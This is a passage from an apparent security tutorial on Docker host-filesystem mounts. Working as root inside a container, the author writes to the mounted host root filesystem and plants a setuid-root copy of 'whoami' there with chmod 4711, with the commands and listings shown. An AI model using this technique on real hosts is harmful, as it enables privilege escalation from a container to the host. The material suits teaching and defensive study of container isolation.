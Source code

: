 ```bash
    0 dr-xr-xr-x 131 root root 0 Dec 18 00:26 proc/  
    0 drwxrwxr-x 2 root staff 80 Dec 18 00:27 root/  
    0 drwxrwxr-x 4 root staff 80 Dec 18 00:27 run/  
    0 drwxrwxr-x 2 root root 1400 Dec 18 00:27 sbin/  
    0 dr-xr-xr-x 13 root root 0 Dec 18 00:27 sys/  
    0 lrwxrwxrwx 1 root root 13 Dec 18 00:27 tmp -> /mnt/sda1/tmp/  
    0 drwxr-xr-x 7 root root 140 Dec 18 00:27 usr/  
    0 drwxrwxr-x 9 root staff 200 Dec 18 00:27 var/
```

Take note here that the file we were able to create from the Docker container on the Docker host file system is owned by ‘root’. Thus ownership of the file at least was preserved when created.

Lets try something a bit more complicated. From inside of the Docker container, lets make a copy of the program ‘/usr/bin/whoami’ and modify the permissions of the copy so that it should run as a ‘setuid' executable.

```bash
    / # cp /rootfs/usr/bin/whoami /rootfs/whoami  
    
    / # chmod 4711 /rootfs/whoami  
    
    / # ls -las /rootfs  
    total 536  
    0 drwxr-xr-x 17 1001 staff 480 Dec 18 08:17 .  
    4 drwxr-xr-x 20 root root 4096 Dec 18 08:13 ..  
    0 -rw-r--r-- 1 root root 0 Dec 18 08:13 FROMCONTAINER  
    0 -rw-r--r-- 1 root root 0 Dec 18 08:06 FROMDOCKERHOST  
    0 drwxr-xr-x 1 1000 staff 204 Nov 12 00:41 Users  
    0 drwxr-xr-x 2 root root 1500 Dec 18 00:27 bin  
    0 drwxrwxr-x 14 root staff 4400 Dec 18 00:27 dev  
    0 drwxr-xr-x 12 root root 1040 Dec 18 00:27 etc  
    0 drwxrwxr-x 3 root staff 60 Dec 18 00:27 home  
    4 -rwxr-xr-x 1 root root 496 Nov 20 19:34 init  
    0 drwxr-xr-x 5 root root 860 Dec 18 00:27 lib  
    0 lrwxrwxrwx 1 root root 3 Dec 18 00:27 lib64 -> lib  
    0 lrwxrwxrwx 1 root root 11 Dec 18 00:27 linuxrc -> bin/busybox  
    0 drwxr-xr-x 4 root root 80 Dec 18 00:27 mnt  
    0 drwxrwsr-x 2 root staff 180 Dec 18 00:27 opt  
    0 dr-xr-xr-x 131 root root 0 Dec 18 00:26 proc  
    0 drwxrwxr-x 2 root staff 80 Dec 18 00:27 root  
    0 drwxrwxr-x 4 root staff 80 Dec 18 00:27 run  
    0 drwxrwxr-x 2 root root 1400 Dec 18 00:27 sbin  
    0 dr-xr-xr-x 13 root root 0 Dec 18 00:27 sys  
    0 lrwxrwxrwx 1 root root 13 Dec 18 00:27 tmp -> /mnt/sda1/tmp  
    0 drwxr-xr-x 7 root root 140 Dec 18 00:27 usr  
    0 drwxrwxr-x 9 root staff 200 Dec 18 00:27 var  
    528 -rws--x--x 1 root root 539203 Dec 18 08:17 whoami
```

Note how the permissions for the user are now ‘rws’ on the copy of the ‘whoami’ executable we made.

This ’s’ indicates that it is now a ‘setuid’ executable. This means that when we run that program it should run with the privileges of the user that is the owner of the program, rather than the privileges of the user running the program.
